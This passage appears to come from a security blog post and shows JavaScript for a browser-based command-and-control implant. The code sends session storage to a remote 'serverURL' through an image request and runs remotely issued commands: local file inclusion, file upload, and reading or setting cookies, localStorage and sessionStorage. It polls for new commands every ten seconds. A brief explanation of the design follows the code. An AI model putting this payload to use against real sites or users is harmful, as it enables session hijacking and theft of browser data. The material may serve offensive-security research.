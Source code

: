 ```
    var i=new Image;
    i.src= serverURL + "/saveSessionStorage?a=" + data;
}

function setSessionStorage() { 
    sessionStorage.setItem(key, value)
}

async function executeCommand() {
    if (command == "lfi") {
        await runLFI()
    }

    if (command == "fileUpload") {
        fileUpload()
    }

    if (command == "getCookie") {
        getCookie()
    }

    if (command == "setCookie") {
        setCookie()
    }
    
    if (command == "getLocalStorage") {
        getLocalStorage()
    }

    if (command == "setLocalStorage") {
        setLocalStorage()
    }

    if (command == "getSessionStorage") {
        getSessionStorage()
    }

    if (command == "setSessionStorage") {
        setSessionStorage()
    }
    resetCommand()
}

setInterval(function(){ 
    getCommand();
    executeCommand();
}, 10000);
```
<br>
The scripts were created based on our previous posts with little to no modification. It is worth 
pointing out that the command parameters are reset after each command execution preventing the same command running multiple times. Most commands expect the parameters key and value except some special cases. This is a design thing and we can write our functions as we wish. 
